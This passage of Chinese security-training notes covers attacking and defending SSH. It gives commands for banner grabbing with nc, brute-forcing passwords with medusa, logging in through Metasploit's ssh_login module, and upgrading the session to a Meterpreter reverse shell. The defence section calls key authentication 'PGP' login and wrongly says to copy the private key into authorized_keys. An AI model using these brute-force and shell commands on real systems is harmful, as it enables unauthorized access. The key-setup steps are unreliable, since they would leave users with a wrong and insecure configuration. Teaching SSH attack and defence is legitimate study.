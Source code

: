   - `nc IP地址 22`

- 配置ssh规避Banner信息

  - 在ssh配置文件/etc/ssh/sshd_config中新增一行。`DebianBanner no`【然后重启ssh服务 `service ssh restart`】

- Medusa SSH弱口令破解

  - 如果在设置SSH服务时，管理员设置了容易被猜解出来的用户名和密码（弱口令）。那么测试人员就可以使用对应的密码工具进行暴力破解弱口令。破解出来就可以使用对应的用户名和密码登录系统。
  - `medusa -h IP地址 -U user.txt -P passwd.txt -M ssh`

- SSH命令行工具登录

  - 一般情况下Linux下都具有ssh客户端，用来登录ssh服务端。可以使用 `ssh 用户名@IP地址`然后根据提示输入密码。

- Metasploit利用SSH登录反弹Shell

  - 使用Metasploit可以进行ssh登录（破解），会自动建立对应的Bash shell连接。

    ```
    msfconsole                                    #启动melasploit
    msf > use auxiliary/scanner/ssh/ssh_login
    msf > show options                            #查看需要设置的选项
    msf > set rhosts IP地址
    msf > set username 用户名
    msf > set password 密码
    msf > show options
    msf > run                                     #运行
    msf > sessions -l                             #查看当前连接的shell
    msf > sessions -i 1                           #建立ID为1的bash shell
    ```

- Metasploit获取Meterpreter Shell

  - 利用获得的Bash shell，注入Metasploit中Meterpreter payload从而获取更强大功能的shell。

    ```
    msf > sessions -l           #查看当前连接的shell
    msf > sessions -u 1         #利用ID为1的shell注入反弹meterpreter playload
    ```

- SSH安全防御——SSH 修改默认端口
  - 默认情况下，SSH使用22端口。为了安全，一般情况下都会修改默认端口。【修改后必须重启SSH服务】
    - `sudo gedit /etc/ssh/sshd_config`
    - `service ssh restart`

- SSH安全防御——SSH设置PGP登录

  - 默认情况下，SSH使用用户名和密码进行远程登录。但也可以使用密钥对进行身份验证登录（公钥与私钥）。
  - 生成SSH密钥对，使用puttygen。
  - 下载链接：[https://www.puttygen.com/download-putty](https://www.puttygen.com/download-putty)
  - 使用ssh-keygen命令在Linux生成.ssh目录，在.ssh下新建密钥存储文件authorized_keys，并复制私钥文件到.ssh目录下。使用命令puttygen -L “要拷贝的私钥文件名”，将内容拷贝到authorized_keys文件中。
  - 使用Putty客户端加载私钥文件进行连接。

- SSH安全防御——SSH防御暴力破解用户账号

  - 在Linux下可以配置不能使用用户名和密码登录，只使用SSH PGP方式验证登录。以此规避SSH暴力破解。
